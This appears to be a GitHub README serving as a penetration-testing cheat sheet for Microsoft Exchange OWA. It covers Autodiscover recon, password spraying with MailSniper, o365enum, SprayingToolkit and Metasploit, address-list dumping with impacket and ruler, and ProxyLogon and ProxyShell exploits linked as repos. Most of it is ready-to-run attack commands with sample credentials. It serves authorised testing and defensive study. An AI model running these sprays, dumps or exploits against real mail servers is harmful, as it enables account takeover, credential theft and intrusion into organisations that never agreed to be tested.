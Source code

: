 # Exchange OWA Penetration Test

## 1. Recon
### Autodiscover
```
POST /autodiscover/autodiscover.xml HTTP/1.1
Host: mail.domain.tld
User-Agent: Microsoft Office/16.0 (Windows NT 10.0; Microsoft Outlook 16.0.10730; Pro)
Authorization: Basic base64(domain\user:password)
Content-Length: 341
Content-Type: text/xml

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
      <EMailAddress>myemail@domain.com</EMailAddress>
      <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```
### Version
```
python3 get-exchange-version.py https://mail.domain.tld
```
<br>&nbsp;

## 2. Password Spray
* PasswordSprayOWA : will attempt to connect to an OWA portal and perform a password spraying attack using a userlist and a single password.
* PasswordSprayEWS :  will attempt to connect to an EWS portal and perform a password spraying attack using a userlist and a single password.
### [MailSniper](https://github.com/dafthack/MailSniper)
```powershell
Import-Module MailSniper.ps1
Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile owa-sprayed-creds.txt
Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile sprayed-ews-creds.txt
```
### python NTLM password Sparay
```python
python3 bruteforce/bruteforce.py -t https://mail.domain.com/EWS/Exchange.asmx -U users.txt -p TestPassword
```
### [o365enum](https://github.com/gremwell/o365enum)
```python
./o365enum.py -u users.txt -p Password2 -n 1
```
### [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)
```python
python3 atomizer.py owa mail.r-1x.com 'PASSWORD' ../users.txt
```
### [Metasploit](https://github.com/rapid7/metasploit-framework)
The following module can be used for EWS: `lauxiliary/scanner/http/owa_ews_login`
<br>&nbsp;<br>&nbsp;

## 3. GAL 
The Microsoft Exchange Global Address List (GAL) is a list of all end users and their respective email addresses within an Exchange Server organization that uses Microsoft Outlook for email.
### [impacket](https://github.com/SecureAuthCorp/impacket)
```python
python GAL/exchanger.py DomainName/Username:"Password"@mail.domain.com nspi list-tables
```
### [ruler](https://github.com/sensepost/ruler) 
```
GAL/ruler-linux64 --url https://mail.domain.com/autodiscover/autodiscover.xml --email Username@domain.com -d DomainName -u Username -p Password --debug --verbose  abk dump --output gal.txt 
```
### ewsManage.py
```python
python3 GAL/ewsManage.py mail.domain.com 443 plaintext DomainName Username Password findallpeopl
```
* for export GAL we should enum valid username,password and email first !
<br>&nbsp;<br>&nbsp;

## 4. [ProxyLogon](https://github.com/kh4sh3i/ProxyLogon)
ProxyLogon is the formally generic name for CVE-2021-26855, a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the authentication and impersonating as the admin. We have also chained this bug with another post-auth arbitrary-file-write vulnerability, CVE-2021-27065, to get code execution.
<br>&nbsp;<br>&nbsp;

## 5. [ProxyShell](https://github.com/kh4sh3i/ProxyShell)
CVE-2021-34473 Microsoft Exchange Server Remote Code Execution Vulnerability. This faulty URL normalization lets us access an arbitrary backend URL while running as the Exchange Server machine account. Although this bug is not as powerful as the SSRF in ProxyLogon, and we could manipulate only the path part of the URL
<br>&nbsp;<br>&nbsp;

## 6. Bypasses
- [UserName Recon/Password Spraying](http://www.blackhillsinfosec.com/?p=4694)
- [Password Spraying MFA/2FA](http://www.blackhillsinfosec.com/?p=5089)
- [Password Spraying/GlobalAddressList](http://www.blackhillsinfosec.com/?p=5330)
- [Outlook 2FA Bypass](http://www.blackhillsinfosec.com/?p=5396)
- [Malicious Outlook Rules](https://silentbreaksecurity.com/malicious-outlook-rules/)
- [Outlook Rules in Action](http://www.blackhillsinfosec.com/?p=5465)
<br>&nbsp;

## Credit
Based on [six2dez](https://github.com/six2dez/pentest-book/blob/master/enumeration/webservices/owa.md)'s github page.<br>
Based on [kh4sh3i](https://github.com/kh4sh3i/exchange-penetration-testing/blob/main/README.md)'s github page.<br>
[Exploring-Microsoft-Exchange-for-penetration-testing-and-redteaming-part-1](https://www.erssec.com/Exploring-Microsoft-Exchange-for-penetration-testing-and-redteaming-part-1/).
<br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
